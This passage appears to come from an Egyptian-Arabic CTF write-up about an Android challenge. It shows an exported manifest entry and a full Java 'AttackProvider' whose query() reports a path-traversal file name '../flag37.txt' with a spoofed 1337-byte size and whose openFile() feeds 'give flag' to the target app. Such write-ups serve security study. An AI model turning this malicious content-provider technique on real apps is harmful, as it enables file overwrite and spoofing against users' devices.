4. **بيتأكد من حجم الملف** لازم يكون بالضبط `1337` bytes
5. **بيقرأ محتوى الملف** باستخدام `openInputStream()`
6. **بيشيك إذا المحتوى يساوي** بالضبط `"give flag"`

الـ **custom content provider** اللي هيـ:

- يرجع الـ metadata الصح في method الـ `query()`
- يدي محتوى الملف بالضبط عبر `openInputStream()` أو `openFile()`
- يتأكد إن المحتوى بالضبط 1337 bytes (مع padding)

```xml
<provider  
    android:name=".AttackProvider"  
    android:authorities="ItsFadinG.github.io"  
    android:enabled="true"  
    android:exported="true"></provider>
```

```java
  
public class AttackProvider extends ContentProvider {  
    public AttackProvider() {  
    }  
  
    @Override  
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {  
        Log.i("AttackProvider", "query("+uri.toString()+")");  
  
        MatrixCursor cursor = new MatrixCursor(new String[]{  
                OpenableColumns.DISPLAY_NAME, OpenableColumns.SIZE  
        });  
  
        cursor.addRow(new Object[]{  
                "../flag37.txt", 1337  
        });  
  
        return cursor;  
    }  
    @Override  
    public ParcelFileDescriptor openFile(Uri uri, @NonNull String mode) throws FileNotFoundException {  
        Log.i("AttackProvider", "openFile(" + uri.toString() + ")");  
  
        try {  
            ParcelFileDescriptor[] pipe = ParcelFileDescriptor.createPipe();  
            ParcelFileDescriptor.AutoCloseOutputStream outputStream = new ParcelFileDescriptor.AutoCloseOutputStream(pipe[1]);  
  
            new Thread(() -> {  
                try {  
                    outputStream.write("give flag".getBytes());  
                    outputStream.close();  
                } catch (IOException e) {  
                    Log.e("AttackProvider", "خطأ في pipeToParcelFileDescriptor", e);  
                }  
            }).start();  
  
            return pipe[0];  
        } catch (IOException e) {  
            throw new FileNotFoundException("ما قدرش يفتح pipe لـ: " + uri.toString());  
        }  
    }  
  
    @Override  
    public int delete(Uri uri, String selection, String[] selectionArgs) {  
        Log.i("AttackProvider", "delete("+uri.toString()+")");  
        throw new UnsupportedOperationException("لسه مش متعمل");  
    }  
  
    @Override  
    public String getType(Uri uri) {  
        Log.i("AttackProvider", "getType("+uri.toString()+")");  
        throw new UnsupportedOperationException("لسه مش متعمل");  
    }  
  
    @Override  
    public Uri insert(Uri uri, ContentValues values) {  
        Log.i("AttackProvider", "insert("+uri.toString()+")");  
        throw new UnsupportedOperationException("لسه مش متعمل");  
    }  
  
    @Override  
    public boolean onCreate() {  
        Log.i("AttackProvider", "onCreate()");  
        return true;  
    }  
  
    @Override  
    public int update(Uri uri, ContentValues values, String selection,  
                      String[] selectionArgs) {  
        Log.i("AttackProvider", "update("+uri.toString()+")");  
        throw new UnsupportedOperationException("لسه مش متعمل");  
    }  
}
```